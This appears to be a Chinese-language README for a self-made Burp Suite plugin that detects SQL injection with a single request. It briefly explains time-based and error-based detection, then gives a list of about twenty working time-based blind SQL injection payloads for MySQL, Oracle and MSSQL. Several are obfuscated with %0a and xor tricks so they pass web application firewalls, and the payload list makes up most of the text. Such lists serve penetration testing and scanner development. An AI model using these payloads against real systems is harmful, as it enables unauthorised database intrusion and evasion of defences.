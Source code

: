 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5-SLEEP(5)/*'-SLEEP(5)-'"-SLEEP(5)-"*/`

`'||(SELECT 1 FROM DUAL WHERE 6994=6994 AND 1=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5))||'`

`'%2b(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys8)%2b'`

` waitfor delay '0:0:5' --`

`' waitfor delay '0:0:5' --`

`') waitfor delay '0:0:5' --`

`) waitfor delay '0:0:5' --`

`OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ' LIKE 'jmBZ`

`') OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ' LIKE 'jmBZ`


` AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`
